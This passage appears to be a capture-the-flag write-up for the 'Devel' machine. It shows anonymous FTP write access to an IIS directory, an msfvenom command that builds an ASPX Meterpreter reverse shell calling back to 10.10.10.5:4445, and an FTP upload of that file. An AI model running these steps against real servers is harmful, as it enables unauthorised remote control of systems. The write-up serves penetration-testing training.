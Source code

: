 Attempting to connect anonymously via FTP reveals that the server does allow anonymous login
with `read/write privileges` in the `IIS server directory`.

# Exploitation 

Because of `read and write` privillage we can be able to drop an `aspx` reverse shell on the target in the directory and execute it by browsing to the file via a web server.`Active Server Page Extended` (`ASPX`) is a file type/extension written for [Microsoft's ASP.NET Framework](https://docs.microsoft.com/en-us/aspnet/overview). On a web server running the ASP.NET framework, web form pages can be generated for users to input data. On the server side, the information will be converted into HTML. We can take advantage of this by using an ASPX-based web shell to control the underlying Windows operating system. Let's witness this first-hand by utilizing the `Antak Webshell`.

we now use `msfvenom` to create an exploit inform of an `aspx` file and put it to the server via `ftp` 

###### code

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4445 -f aspx
> devel.aspx
```

###### output
![](/Windows/Windows-Easy/Devel/Screenshots/msfvenomdevel.png)

After creating the `aspx` exploit we can then  upload it to the server using ftp  via `put command`

###### code

```sh
put ./devel.aspx
```
